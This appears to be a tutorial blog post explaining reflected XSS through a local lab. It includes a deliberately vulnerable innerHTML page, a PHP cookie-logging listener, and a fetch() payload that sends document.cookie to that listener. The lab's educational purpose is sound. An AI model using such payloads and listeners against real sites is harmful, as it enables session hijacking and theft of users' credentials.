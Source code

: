 ```yaml
---
title: "Reflected XSS: Explained with Real Examples"
author: saramazal
layout: post
date: 2025-04-17
categories: [XSS]
tags: [xss, web, pentesting, tryhackme, client-side, appsec]
img_path: /images/covers
image:
  path: /images/covers/pink-girl5.jpg

---
```


## 🧠 Reflected XSS – Real-World Lab 

Welcome to a practical breakdown of Reflected Cross-Site Scripting (XSS) – one of the most common and critical client-side vulnerabilities. This lab was designed for hands-on understanding, simulating how attackers think and how defenders must secure.

---

### 🚨 What is Reflected XSS?

Reflected XSS occurs when untrusted input from the URL or form gets reflected back into the web page without proper sanitization. This leads to code execution in the victim's browser.

**Example Attack:**  
```html
http://victim-site.com/page?q=<script>stealCookies()</script>
```

---

### 🧪 Lab Objective

- Understand how input reflects in HTML
- Learn to craft XSS payloads
- Use `document.cookie` and `fetch()` to simulate data theft
- Log stolen data server-side

---

### 🧱 Lab Structure

```
xss-lab/
├── xss-lab.html        # The vulnerable page
├── steal.php           # Attacker’s listener
├── requests.log        # Logs captured cookies
├── cookie.txt          # Used for testing cookies
```

---

### 🔧 Code Setup

**xss-lab.html**
```html
<html>
<body>
  <h2>Reflected XSS Demo</h2>
  <div id="output"></div>

  <script>
    const q = new URLSearchParams(location.search).get('q');
    document.getElementById('output').innerHTML = q;
  </script>
</body>
</html>
```

**steal.php**
```php
<?php
file_put_contents("requests.log", print_r($_GET, true) . "\n", FILE_APPEND);
?>
```

---

### 🚀 Running the Lab

1. Launch local server:
```bash
php -S localhost:8080
```

2. Simulate cookie in DevTools:
```js
document.cookie = "session_id=mazal_lab";
```

3. Trigger XSS:
```html
http://localhost:8080/xss-lab.html?q=<script>fetch('http://localhost:8080/steal.php?c='+document.cookie)</script>
```

4. View stolen data:
```bash
cat requests.log
```

---

### 🛠️ Bonus UI Inputs

Add these to your lab to explore inputs:
```html
<input type="text" placeholder="Search...">
<textarea placeholder="Write a comment..."></textarea>
<input type="file" accept="image/*">
```

---

### 🧠 Key Takeaways 

- Reflected XSS is immediate and dangerous
- Always validate & sanitize user input
- Look for reflected user input in URL, forms, search bars
- Test with `<script>alert(1)</script>` or `fetch()` calls

---

This lab simulates a real attack chain and teaches defenders to think like attackers. Keep experimenting, and remember: break things safely, learn deeply.

Stay sharp,  
**Maz4l** 🐾


---



*More hacks, more notes, more wins.*

